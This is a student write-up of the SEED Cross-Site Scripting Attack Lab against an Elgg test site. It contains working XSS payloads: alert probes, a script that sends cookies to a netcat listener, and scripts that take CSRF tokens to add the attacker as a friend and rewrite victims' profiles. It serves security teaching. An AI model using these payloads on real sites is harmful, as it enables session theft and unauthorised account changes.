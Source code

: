 # CS 4173 Lab 5
#### Cross-Site Scripting Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Posting a Malicious Message to Display an Alert Window

In this task,verify that the system is indeed vulnerable to cross-site scripting attacks. An easy way to test this in general is to submit content with a `<script>` tag and see if something simple such as an alert box can be called. We post the following contents to Samy's profile:

```html
<script>alert('XSS');</script>
```

Upon visiting Samy's profile, the visitor now gets an alert box popup saying "XSS" which confirms that the system is susceptible to XSS attacks.

## Task 2: Posting a Malicious Message to Display Cookies

Now that we can use XSS on this system, we can now start attempting to grab private user data, in particular cookies. We can modify the script above to do so:

```html
<script>alert(document.cookie);</script>
```

## Task 3: Stealing Cookies from the Victim’s Machine

With the above method, we can alert the cookies to the user's screen, but the attacker is not yet able to view this information. In order to transfer this data to the attacker, they can use a malicioius HTTP GET request, for example with a fake image. We can append the information to this request which goes to the attacker's machine. In this example, we are using the localhost IP address since we are testing on the same machine:

```html
<script>document.write('<img src="http://127.0.0.1:5555?c=' + escape(document.cookie) + '>')</script>
```

Then, using the `netcat` utility, we can view the incoming GET requests from the attacker which will include the appended cookie data:

```
$ nc -l 5555 -v
```

## Task 4: Becoming the Victim’s Friend

For a cross-site scripting attack, the information may not need to be sent to the attacker, but can be used directly in the attacker's script as demonstrated in this task. By using cross-site scripting in this case, the attacker (Samy) can use a script to take the user's CSRF tokens and make a request to add himself as a friend:

```html
<script type="text/javascript">
    window.onload = function () {
        let xhr = null;

        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        let sendurl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

        //Create and send xhr request to add friend
        xhr = new XMLHttpRequest();
        xhr.open("GET",sendurl,true);
        xhr.setRequestHeader("Host","www.xsslabelgg.com");
        xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        xhr.send();
    }
</script>
```

### Question 1

These two lines retrieve the tokens which are used to prevent CSRF attacks. In order to make a request, one must have the correct tokens or else the server will reject the request.

### Question 2

If the user can only use the rich text editor, they will not be able to insert malicious scripts into their profile. If we inspect the POST request, we can see that if we attempt to insert a script through the editor, characters such as the angle brackets are converted to their respective HTML entities like `&lt;` and `&gt;` for example. This prevents the HTML from parsing it as an HTML `script` tag and reading it as a regular string instead.

## Task 5: Modifying the Victim’s Profile

In addition to adding himself as a friend, Samy can also use cross-site scripting attack in order to modify the user's 

```html
<script type="text/javascript">
    window.onload = function(){
        //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
        //and Security Token __elgg_token
        let userName = elgg.session.user.name;
        let guid = "&guid="+elgg.session.user.guid;
        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "__elgg_token="+elgg.security.token.__elgg_token;
        
        //Construct the content of your url.
        let sendurl = "http://www.xsslabelgg.com/action/profile/edit";
        let content = token + ts + "&description=Samy is my hero&accesslevel[description]=2" + guid;
        
        let samyGuid = 47;
        if(elgg.session.user.guid != samyGuid) {
            //Create and send xhr request to modify profile
            let xhr = null;
            xhr = new XMLHttpRequest();
            xhr.open("POST",sendurl,true);
            xhr.setRequestHeader("Host","www.xsslabelgg.com");
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send(content);
        }
    }
</script>
```